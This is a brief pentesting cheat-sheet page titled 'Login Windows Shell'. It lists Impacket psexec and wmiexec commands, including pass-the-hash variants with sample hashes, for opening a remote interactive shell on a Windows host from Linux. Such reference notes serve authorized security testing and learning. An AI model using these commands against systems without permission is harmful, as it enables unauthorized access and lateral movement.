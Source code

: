 ```yaml
---
title: Login Windows Shell
description: If we have credentials for target Windows system, we can execute commands from Linux machine.
tags:
    - Windows
refs:
date: 2023-11-11
draft: false
---
```


## Impacket PsExec

PsExec gives us an interactive shell on the Windows host.

```sh
impacket-psexec username:password@<target-ip>
# Pass the Hashes
impacket-psexec -hashes abcdef0123456789abcdef0123456789:c2597747aa5e43022a3a3049a3c3b09d username@10.0.0.1
```

<br />

## Impacket WmiExec

WmiExec uses Windows Management Instrumentation (WMI) to give us an interactive shell on the Windows host.

```sh
impacket-wmiexec example.local/username@10.0.0.1
# Pass the Hashes
impacket-wmiexec -hashes abcdef0123456789abcdef0123456789:c2597747aa5e43022a3a3049a3c3b09d example.local/username@10.0.0.1
```
